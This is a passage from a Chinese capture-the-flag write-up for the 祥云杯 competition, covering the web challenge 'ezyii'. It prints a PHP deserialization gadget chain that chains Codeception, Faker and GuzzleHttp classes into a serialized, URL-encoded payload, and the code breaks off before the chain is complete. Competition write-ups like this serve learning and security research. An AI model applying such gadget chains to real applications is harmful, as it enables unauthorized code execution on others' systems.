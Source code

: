 > 原文链接: https://www.anquanke.com//post/id/251225 


# 祥云杯 By 天璇Merak


                                阅读量   
                                **46971**
                            
                        |
                        
                                                                                    



[![](https://p4.ssl.qhimg.com/t01af826e5e8b5938a8.png)](https://p4.ssl.qhimg.com/t01af826e5e8b5938a8.png)



## Web

### <a class="reference-link" name="ezyii"></a>ezyii

网上现有的链子github

```
&lt;?php
namespace Codeception\Extension`{`
    use Faker\DefaultGenerator;
    use GuzzleHttp\Psr7\AppendStream;
    class  RunProcess`{`
        protected $output;
        private $processes = [];
        public function __construct()`{`
            $this-&gt;processes[]=new DefaultGenerator(new AppendStream());
            $this-&gt;output=new DefaultGenerator('jiang');
        `}`
    `}`
    echo urlencode(serialize(new RunProcess()));
`}`
namespace Faker`{`
    class DefaultGenerator
`{`
    protected $default;
    public function __construct($default = null)
    `{`
        $this-&gt;default = $default;
`}`
`}`
`}`
namespace GuzzleHttp\Psr7`{`
    use Faker\DefaultGenerator;
    final class AppendStream`{`
        private $streams = [];
        private $seekable = true;
        public function __construct()`{`
            $this-&gt;streams[]=new CachingStream();
        `}`
    `}`
    final class CachingStream`{`
        private $remoteStream;
        public function __construct()`{`
            $this-&gt;remoteStream=new DefaultGenerator(false);
            $this-&gt;stream=new  PumpStream();
        `}`
    `}`
```